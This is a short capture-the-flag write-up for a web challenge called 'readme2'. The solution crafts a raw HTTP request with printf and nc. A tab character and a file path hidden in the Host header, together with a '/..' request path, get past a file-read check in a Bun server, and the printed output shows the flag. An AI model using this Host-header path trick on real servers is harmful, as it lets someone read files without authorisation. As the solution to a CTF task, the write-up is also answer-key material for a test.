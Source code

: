 # readme2
**Category:** Web
**Difficulty:** Medium
**Author:** maple3142

## Description

Try to read the `flag.txt` file, again!

## Distribution

- `readme2.tar.gz`  (remove flag from Dockerfile then `tar czf readme.tar.gz app.js Dockerfile`)
- url

## Solution

Bun will put the value of `Host` header into `req.url`, which allows us to do many funny things to bypass the check.

```bash
> printf 'GET /.. HTTP/1.0\r\nHost: fakehost/fla\tg.txt\r\n\r\n' | nc readme2.chal.imaginaryctf.org 80
HTTP/1.1 200 OK
Content-Type: text/plain;charset=utf-8
Date: Sun, 21 Jul 2024 08:37:29 GMT
Date: Sun, 21 Jul 2024 08:37:29 GMT
Content-Length: 43

ictf{just_a_funny_bug_in_bun_http_handling}
```

